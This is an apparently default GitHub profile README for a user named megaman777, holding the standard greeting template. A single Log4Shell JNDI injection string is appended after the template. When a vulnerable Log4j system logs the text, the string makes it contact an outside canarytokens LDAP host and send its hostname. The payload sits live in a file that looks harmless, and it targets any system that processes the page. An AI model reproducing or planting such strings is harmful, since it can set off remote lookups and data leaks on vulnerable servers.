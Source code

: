 - 👋 Hi, I’m @megaman777
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

<!---
megaman777/megaman777 is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
${jndi:ldap://x${hostName}.L4J.m5fs2vcrbqykwnth3q22v5as1.canarytokens.com/a}
